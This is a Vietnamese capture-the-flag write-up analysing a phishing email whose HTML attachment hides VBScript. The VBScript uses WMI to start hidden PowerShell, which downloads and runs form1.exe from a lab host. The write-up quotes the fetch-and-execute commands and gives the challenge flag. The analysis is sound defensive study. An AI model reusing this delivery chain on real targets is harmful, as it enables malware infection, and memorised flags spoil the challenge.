




# Challenge Urgent

## 1. Đầu vào challenge

Challenge cung cấp file Urgent Faction Recruitment Opportunity - Join Forces Against KORP™ Tyranny.eml

Quan sát phần **header email** có thể thấy mẫu này chứa attachment `onlineform.html` được encode base64, trong khi phần nội dung thư có thể chỉ dụ nạn nhân mở file đính kèm.



---

## 2. Bước phân tích chính

### 2.1. Decode attachment

Từ file `.eml`, extract phần attachment `onlineform.html` rồi decode lớp base64 bên ngoài.

Sau bước này, thu được nội dung HTML của file đính kèm.



---

### 2.2. URL decode lớp tiếp theo

Trong `onlineform.html`, xuất hiện đoạn JavaScript có dạng:

```javascript
document.write(unescape(...))
```


Điều này cho thấy nội dung thực không nằm trực tiếp trong file ban đầu, mà đang bị URL-encode rồi được giải mã động khi trang được mở.

Sau khi decode chuỗi bên trong `unescape(...)`, thu được một đoạn HTML khác.

---

## 3. HTML sau khi decode

Trang HTML sau khi decode chỉ hiển thị dòng:

```text
404 Not Found
```



Nhưng bên trong lại chứa một đoạn **VBScript độc hại**.

---

## 4. Phân tích đoạn VBScript

### Kiến thức ngoài lề

**VBScript** (*Visual Basic Scripting Edition*) là một ngôn ngữ script của Microsoft, được thiết kế để chạy các tác vụ tự động trên môi trường Windows hoặc bên trong một số ứng dụng / script host của Microsoft.

**WMI** (*Windows Management Instrumentation*) là một hệ thống quản trị của Windows cho phép script, chương trình, hoặc admin.

**Win32_Process** là một WMI class đại diện cho process trên Windows, chuyên về tiến trình.
---

### 4.1. Cách script tự chạy

Đoạn VBScript được đặt trong:

```vbscript
Sub window_onload
```

Có nghĩa là script sẽ **tự động chạy ngay khi trang được mở xong**.

---

### 4.2. Tạo process qua WMI

Script tạo object:

```vbscript
WbemScripting.SWbemLocator
```

Dùng thành phần hợp pháp của Windows để gọi lệnh hệ thống, kết nối tới **WMI** và sử dụng `Win32_Process` để tạo một tiến trình mới trên Windows.

---

## 5. Payload tiếp theo

Tiến trình được tạo sẽ gọi:

```text
cmd.exe /c powershell.exe -windowstyle hidden
```

Ý nghĩa:

- chạy `cmd.exe`
- từ đó gọi tiếp `powershell.exe`
- bật chế độ `hidden` để PowerShell chạy ẩn, giảm khả năng bị người dùng phát hiện

Sau đó, PowerShell dùng:

```powershell
System.Net.WebClient.DownloadFile(...)
```

để tải file:

```text
https://standunited.htb/online/forms/form1.exe
```

về thư mục:

```text
%appdata%
```

rồi gọi Start-Process để thực thi file vừa tải.

---

## 6. Flag

```text
HTB{4n0th3r_d4y_4n0th3r_ph1shi1ng_4tt3mpT}
```
---

## 7. Flow tấn công

```text
Email .eml
   |
   v
Attachment onlineform.html (base64)
   |
   v
Decode base64
   |
   v
JavaScript document.write(unescape(...))
   |
   v
URL decode lớp tiếp theo
   |
   v
HTML giả "404 Not Found"
   |
   v
VBScript trong window_onload tự chạy
   |
   v
Tạo process qua WMI / Win32_Process
   |
   v
cmd.exe gọi PowerShell hidden
   |
   v
Tải form1.exe về %appdata%
   |
   v
Thực thi payload
```

---

